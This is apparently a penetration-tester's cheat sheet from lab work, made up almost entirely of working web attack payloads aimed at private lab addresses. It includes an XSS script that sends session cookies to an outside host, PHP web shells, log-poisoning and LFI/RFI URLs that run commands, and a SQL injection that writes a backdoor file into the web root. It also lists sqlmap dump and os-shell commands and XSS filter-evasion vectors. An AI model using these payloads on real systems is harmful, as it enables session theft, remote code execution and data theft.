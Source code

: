 #### XSS

`<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>`

`powershell -ExecutionPolicy Bypass -File clear_logs.ps1`

`powershell -ExecutionPolicy Bypass -File admin_login.ps1`

### LOG POISONING

```
nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

```
### LFI

`http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`

### Running a server

`<?php echo shell_exec($_GET['cmd']); ?>`

`python -m SimpleHTTPServer 7331`

`python3 -m http.server 7331`

`php -S 0.0.0.0:8000`

`ruby -run -e httpd . -p 9000`

`busybox httpd -f -p 10000`

### PHP data wrapper used with LFI

`http://192.168.175.10/menu.php?file=data:text/plain,%3C?php%20echo%20shell_exec(%22dir%22)%20?%3E`

### RFI

`http://192.168.175.10/menu2.php?cmd=ipconfig&file=http://192.168.119.175/evil.txt?`

`http://192.168.175.10/menu.php?cmd=ipconfig&file=http://192.168.119.175/evil.txt`

### SQL Injection

```
mysql -u root -proot

jim' or 1=1 limit 1;#


http://10.11.0.22/debug.php?id=1 order by 1

http://10.11.0.22/debug.php?id=1 union all select 1, 2, 3

http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version 

http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()

http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables

http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'

http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users

http://192.168.175.10/debug.php?id=1%20union%20all%20select%201,%202,%20%22%3C?php%20echo%20shell_exec($_GET[%27cmd%27]);?%3E%22%20into%20OUTFILE%20%27c:/xampp/htdocs/backdoor.php%27

```
#### sqlmap

```
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"

sqlmap -u http://192.168.175.10/debug.php?id=1 -p "id" --dbms=mysql --dump

sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os- shell

http://192.168.175.10:9090/search?search=gizmo%27)+UNION+ALL+SELECT+1,%27d%27,%27s%27,4,5--

http://192.168.175.10:9090/search?search=gizmo%27)%20union%20select%20null,table_name,user(),4,null%20from%20information_schema.tables--

http://192.168.175.10:9090/search?search=gizmo%27)%20union%20select%20null,column_name,user(),4,null%20from%20information_schema.columns%20--

http://192.168.175.10:9090/search?search=gizmo%27)%20union%20select%20null,concat(username,password),user(),4,null%20from%20users%20--

http://192.168.175.10:9090/search?search=gizmo%27)%20union%20select%20null,concat(username,password),user(),4,null%20from%20users%20--
```

### XSS

```
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
<svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
<svg/onload=alert('XSS')>
<BODY ONLOAD=alert('XSS')>

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
```
